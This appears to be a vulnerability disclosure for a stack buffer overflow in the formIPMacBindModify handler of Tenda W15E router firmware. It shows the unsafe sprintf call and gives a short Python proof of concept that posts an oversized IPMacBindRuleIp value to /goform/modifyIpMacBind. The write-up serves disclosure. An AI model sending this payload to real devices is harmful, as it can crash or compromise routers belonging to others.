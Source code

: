 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formIPMacBindModify` function. The `ruleIndex, ip, mac, remark` variable receives the `IPMacBindRuleId, IPMacBindRuleIp, IPMacBindRuleMac, IPMacBindRuleRemark` parameter from a POST request. However, since the user can control the input of `IPMacBindRuleId, IPMacBindRuleIp, IPMacBindRuleMac, IPMacBindRuleRemark `, the statement

```c
sprintf(
    (char *)tmp,
    "%s;1;%s;%s;name%d;%s",
    (const char *)ruleId,
    (const char *)ip,
    (const char *)mac,
    v6,
    (const char *)remark);
```

can cause a buffer overflow. The user-provided `IPMacBindRuleId, IPMacBindRuleIp, IPMacBindRuleMac, IPMacBindRuleRemark` can exceed the capacity of the `tmp` array, triggering this security vulnerability.

![image-20240417104536386](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417104536386.png)

![image-20240417104524808](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417104524808.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/modifyIpMacBind"
payload = b"a"*2000

data = {

    	'IPMacBindRuleIp':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
